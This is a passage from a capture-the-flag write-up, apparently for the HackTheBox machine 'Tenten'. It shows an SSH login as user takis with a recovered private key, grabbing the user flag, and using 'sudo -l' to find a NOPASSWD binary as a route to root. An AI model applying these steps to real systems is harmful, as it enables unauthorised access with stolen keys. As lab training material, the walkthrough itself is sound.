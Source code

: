 ### SSH as takis

Given I only have one user name at this point, I’ll try SSH as takis, and it
returns a shell:

    
    
    ┌─[htb-0xdf☺htb-rvrl5lfpiv]─[~/tenten]
    └──╼ $chmod 400 id_rsa
    ┌─[htb-0xdf☺htb-rvrl5lfpiv]─[~/tenten]
    └──╼ $ssh -i id_rsa takis@10.10.10.10
    The authenticity of host '10.10.10.10 (10.10.10.10)' can't be established.
    ECDSA key fingerprint is SHA256:AxKIYOMkqGk3v+ZKgHEM6QcEDw8c8/qi1l0CMNSx8uQ.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.10' (ECDSA) to the list of known hosts.
    Enter passphrase for key 'id_rsa': 
    Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
    65 packages can be updated.
    39 updates are security updates.
    
    
    Last login: Fri May  5 23:05:36 2017
    takis@tenten:~$
    

I can grab `user.txt`:

    
    
    takis@tenten:~$ cat user.txt 
    e5c7ed3b************************
    

## Priv: takis –> root

### Enumeration

Always check `sudo`, and it pays off again:

    
    
    takis@tenten:~$ sudo -l
    Matching Defaults entries for takis on tenten:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User takis may run the following commands on tenten:
        (ALL : ALL) ALL
        (ALL) NOPASSWD: /bin/fuckin
    

If I had a password for takis, I could run any command as sudo. But without a
password, I can only run `/bin/fuckin`.
